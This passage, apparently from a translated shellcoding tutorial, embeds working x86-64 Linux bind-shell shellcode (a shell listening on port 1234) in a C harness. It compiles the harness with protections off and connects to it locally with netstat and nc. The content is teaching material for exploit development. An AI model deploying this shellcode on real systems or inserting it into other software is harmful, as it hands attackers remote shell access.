 上述命令的输出显示在以下屏幕截图中：

![](../images/00211.jpeg)

让我们将其注入到 C 代码中：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\x48\x31\xc0\x48\x83\xc0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\x66\x68\x04\xd2\x66\x6a\x02\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x48\x31\xc0\x48\x83\xc0\x31\x0f\x05\x48\x31\xc0\x48\x83\xc0\x32\x48\x31\xf6\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x2b\x48\x31\xf6\x48\x31\xd2\x0f\x05\x48\x89\xc3\x48\x89\xdf\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

让我们编译并运行它：

```
$ gcc -fno-stack-protector -z execstack bind-shell.c
$ ./a.out
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00212.gif)

现在我们的外壳代码正在工作和等待；让我们确认一下：

```
$ netstat -ntlp
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00213.jpeg)

它正在`1234`端口监听；现在，从另一个终端窗口开始`nc`：

```
$ nc localhost 1234
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00214.gif)

